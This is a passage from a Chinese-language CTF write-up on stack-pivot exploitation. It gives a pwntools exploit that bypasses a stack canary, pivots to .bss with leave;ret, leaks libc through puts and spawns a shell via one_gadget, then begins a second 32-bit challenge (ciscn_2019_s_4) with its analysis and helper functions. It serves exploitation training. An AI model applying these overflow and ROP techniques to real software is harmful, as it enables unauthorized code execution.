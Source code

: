 ```python

sla("challenge\n", 0x4009ae)

leave_ret = 0x400759
bss_addr = 0x601800
pl = "a"*0x18+p64(canary)+p64(bss_addr)+p64(0x40072E)
sa("message\n", pl)

puts = 0x40086E 
pop_rdi_ret = 0x400913

pl2 =p64(pop_rdi_ret)+p64(0x600fc0)+p64(puts)
s(pl2+p64(canary)+p64(0x601800-0x28)+p64(leave_ret))
libc_base = u64(p.recvuntil("\x7f")[-6:]+"\x00\x00")-0x80aa0
lg('libc_base',libc_base)
one = libc_base+0x4f432
s("a"*0x18+p64(canary)+p64(0)+p64(one))
p.interactive()
```
这种构造则执行了2次栈迁移
第一次bss段输入，溢出跳转read
第二次在0x6017e0输入内容，溢出跳转leave_ret
最后同样的栈溢出one_gadget
区别在于这里用的puts函数是vuln函数上方的函数
![puts](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-c423666698b40902.png)
这样的结果就是在执行完puts后就会执行一遍vuln，从而得到最后一次栈溢出

> leave ret：
> `mov esp ebp`
> `pop ebp`
> `pop eip`
> 原理的话[栈迁移原理图示 - yichen0115 - 博客园 (cnblogs.com)](https://www.cnblogs.com/yichen115/p/12450517.html)
> 算是栈迁移的常规利用，控制ebp的值为写入的地址，注意的是最后eip执行是从ebp位置+0x8开始执行的
> 64位是寄存器传参，所以有所区别，read和leaveret一般分开用


## 例题2 ciscn_2019_s_4 （32位）
### 思路
![防护](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-392403caaf7777f3.png)
![IDA](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-60e2ae8bb9335180.png)
![VUL](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/26177342-063acd53f9e9047f.png)
题目很简单2次read输入，每次能多溢出4字节
32位这种题，溢出一个字长，read不行，puts也不行
没办法转移到bss段上，所以考虑就写s（转自己身上），利用前边的填充位置写payload

### EXP
```python
from pwn import *
context.log_level = 'debug'

s       = lambda data               :p.send(data)
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

```